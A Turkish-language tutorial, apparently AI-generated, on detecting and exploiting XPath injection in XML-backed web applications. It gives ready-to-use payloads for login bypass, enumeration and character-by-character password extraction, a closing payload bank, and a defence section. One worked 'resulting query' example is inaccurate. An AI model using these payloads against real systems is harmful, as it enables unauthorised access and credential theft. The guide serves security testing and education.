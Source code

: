 ### **XPath Injection Zafiyeti: Tespit ve İstismar Rehberi**

**XPath Injection**, web uygulamalarında XML tabanlı veri kaynakları üzerinde çalışan XPath ifadelerinin kötüye kullanılmasıyla meydana gelir. Bu zafiyet, saldırganın XML veritabanına yetkisiz erişim sağlamasına, hassas bilgilere ulaşmasına veya veri manipülasyonu yapmasına olanak tanır.

---

### **1. XPath Injection Nedir?**
- **Tanım**: Uygulamada kullanıcıdan alınan girdi, güvenlik kontrolleri olmadan XPath sorgularına dahil ediliyorsa, saldırgan bu girdiyi manipüle ederek sorgunun mantığını değiştirebilir.
- **Tehlikeleri**:
  - XML tabanlı veritabanına yetkisiz erişim.
  - Kullanıcı bilgilerini ele geçirme (örn. kullanıcı adı ve parola).
  - Veri sızdırma veya silme.

---

### **2. XPath Zafiyetinin Tespiti**
#### **2.1. Potansiyel Giriş Noktaları**
XPath Injection genellikle şu durumlarda ortaya çıkar:
- **Login Formları**: Kullanıcı adı ve parola doğrulama sırasında.
- **Arama Kutuları**: XML tabanlı sorgularla çalışan veri tabanlarında.
- **Filtreleme Sistemleri**: Örneğin, bir kullanıcı listesini filtreleme veya sıralama.

#### **2.2. Belirtiler**
- Beklenmeyen çıktı dönen XML sorguları.
- Hata mesajlarında XPath ifadelerinin görünmesi.
- Kullanıcı girdisinin yansıtıldığı bir XML çıktısı.

#### **2.3. Test için Kullanılan Payloadlar**
XPath Injection tespiti için aşağıdaki payloadlar kullanılabilir:

1. **Boolean Testleri**:
   ```plaintext
   ' or '1'='1
   " or "1"="1
   ' or 1=1 or 'a'='a
   ```

2. **XPath Error-Based Payload**:
   ```plaintext
   ' and count(//user)=0
   ' and count(/user)=1
   ```

3. **Time-Based Test**:
   Eğer XML veritabanı zaman tabanlı işlemleri destekliyorsa, bu yöntem kullanılabilir.

#### **2.4. Araçlar**
- **Burp Suite**: HTTP isteklerini yakalayarak XPath sorgularını test etmek.
- **OWASP ZAP**: Otomatik tarama ve manuel testler için.
- **Postman**: API isteklerini düzenleyerek XPath Injection testleri yapmak.

---

### **3. XPath Injection İstismarı**
#### **3.1. Kimlik Doğrulama Atlatma**
Saldırganın amacı, login formunu baypas ederek sisteme erişim sağlamaktır.

**Örnek Sorgu**:
```xml
//users/user[username/text()='admin' and password/text()='password']
```

**Manipüle Edilmiş Girdi**:
```plaintext
' or '1'='1
```

**Sonuç Sorgu**:
```xml
//users/user[username/text()='admin' or '1'='1']
```
Bu, tüm kullanıcıların listesini döndürebilir ve kimlik doğrulamayı atlatır.

---

#### **3.2. Hassas Veri Çalma**
XPath ifadelerini manipüle ederek XML veritabanındaki hassas bilgileri çalabilirsiniz.

**Örnek Payload**:
```plaintext
' or contains(name, 'admin') or '1'='1
```
Bu payload, adı "admin" olan bir kullanıcıyı sorgular ve döner.

---

#### **3.3. Veri Keşfi (Enumeration)**
XML veritabanındaki veri yapısını anlamak için aşağıdaki teknikler kullanılabilir:

- **Element Sayısını Bulma**:
   ```plaintext
   ' or count(//user)=2 or '1'='1
   ```

- **Kullanıcı Adlarını Çıkarma**:
   ```plaintext
   ' or username/text()='admin' or '1'='1
   ```

#### **3.4. XPath Fonksiyonlarının Kullanımı**
XPath fonksiyonları, veri keşfi ve istismar için kullanılabilir:

- **starts-with()**:
   ```plaintext
   ' or starts-with(password/text(), 'a') or '1'='1
   ```
   Bu, parolanın "a" harfiyle başlayıp başlamadığını kontrol eder.

- **substring()**:
   ```plaintext
   ' or substring(password/text(), 1, 1)='a' or '1'='1
   ```
   Bu, parolanın ilk karakterini kontrol eder.

---

### **4. Korunma Yöntemleri**
#### **4.1. Kullanıcı Girdisi Doğrulama**
- **Beyaz Liste**: Yalnızca belirli giriş formatlarına izin verin.
- **Kaçış Mekanizması**: XPath özel karakterlerini kaçış karakterleriyle değiştirin:
  - `'` yerine `&apos;`
  - `"` yerine `&quot;`

#### **4.2. Parametrik Sorgular**
- SQL Injection'a benzer şekilde, XPath sorgularında parametrik ifadeler kullanılmalıdır:
  ```java
  String xpath = "//users/user[username/text()=$username and password/text()=$password]";
  ```

#### **4.3. XML İşleyicisini Güncelleme**
Modern XML işleyicileri kullanarak harici varlık işlemlerini (XXE) ve XPath Injection'u önlemek için güncellemeler yapılmalıdır.

#### **4.4. Hata Mesajlarını Gizleme**
Hata mesajlarında XPath ifadelerinin görünmesini engelleyin.

---

### **5. Araçlar ve Teknikler**

| **Araç**         | **Açıklama**                                  |
|-------------------|----------------------------------------------|
| **Burp Suite**    | HTTP isteği manipülasyonu ve injection testi. |
| **OWASP ZAP**     | XPath Injection tespiti ve manuel test.       |
| **Postman**       | API isteklerini test etmek için kullanılabilir. |
| **XMLSpy**        | XML yapısını analiz etmek için kullanılır.     |

---

### **6. XPath Injection Payload Bankası**

#### **Kimlik Doğrulama Baypası**
```plaintext
' or '1'='1
" or "1"="1
' or 1=1 or 'a'='a
```

#### **Veri Çekme**
```plaintext
' or contains(name, 'admin') or '1'='1
' or substring(password, 1, 1)='a' or '1'='1
' or count(//user)=1 or '1'='1
```

#### **Error-Based XPath**
```plaintext
' and count(//user)=0
' and count(/user)=1
```

---

Bu rehber, XPath Injection tespiti ve istismarı için kapsamlı bir yol haritası sunmaktadır. Daha fazla detay ve senaryo üzerinde çalışmak isterseniz, örneklerle destek sağlayabilirim.
